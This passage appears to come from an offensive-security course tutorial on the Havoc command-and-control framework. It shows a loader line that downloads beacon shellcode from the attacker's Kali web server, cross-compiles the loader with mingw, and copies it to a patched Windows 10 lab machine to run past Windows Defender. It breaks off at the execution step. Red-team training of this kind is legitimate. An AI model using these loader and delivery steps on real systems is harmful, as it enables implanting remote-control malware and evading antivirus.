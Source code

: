 ```
recvbuf = Download(L"10.250.0.16\0", std::stoi("8001"), L"/demon.x64.bin\0");
```

* `10.250.0.16` represents the IP of our Kali machine.
* `8001` represents the port the python http server is listening on.
* `demon.x64.bin` represents the file containing our beacon's shellcode.

With the loader now ready, we will go right ahead and compile it.

In order for the compilation to work from Linux directly, a package called `mingw-w64` must be installed prior.

```
➜  SquidGuard sudo apt-get install mingw-w64
[sudo] password for kali: 
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
mingw-w64 is already the newest version (11.0.1-3).
The following packages were automatically installed and are no longer required:
  libecap3 lua-lpeg python3-aardwolf python3-aesedb python3-aiocmd python3-aioconsole python3-aiosmb python3-aiowinreg python3-arc4 python3-asciitree python3-asn1tools python3-asyauth python3-asysocks
  python3-bitstruct python3-diskcache python3-lsassy python3-masky python3-minidump python3-minikerberos python3-msldap python3-neo4j python3-neobolt python3-neotime python3-oscrypto python3-pylnk3
  python3-pypsrp python3-pypykatz python3-pywerview python3-spnego python3-unicrypto python3-winacl squid-common squid-langpack tesseract-ocr-osd
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 1971 not upgraded.
➜  SquidGuard
```

Now, we can perform the compilation as follows:

```
➜  SquidGuard x86_64-w64-mingw32-g++ --static webloader.cpp -o webloader.exe -lwinhttp -fpermissive
➜  SquidGuard
```

With the actual executable in hand, we can now transfer it to the fully updated/patched Windows 10 machine we spoke of previously. Of course, this isn't applicable to a real engagement. However, the purpose of this demonstration is to provide you with an understanding of Havoc's core functionalities. Multiple simulations of real engagements utilizing all the techniques acquired in this course will be provided very soon! We'll make an announcement at some point, so stay tuned for that!

#### Transfer of files

The suggested way of transferring our loader to the Windows VM is via *SCP*. After making sure that SSH is installed (`sudo apt install ssh`) on Kali and up and running (`sudo service ssh start`), we can issue the following command in our Windows command prompt to initiate the transfer:

```
scp kali@10.10.10.10:/path/to/exe .
```

From there, the loader is executed while keeping all of Windows Defender's default protection options on:
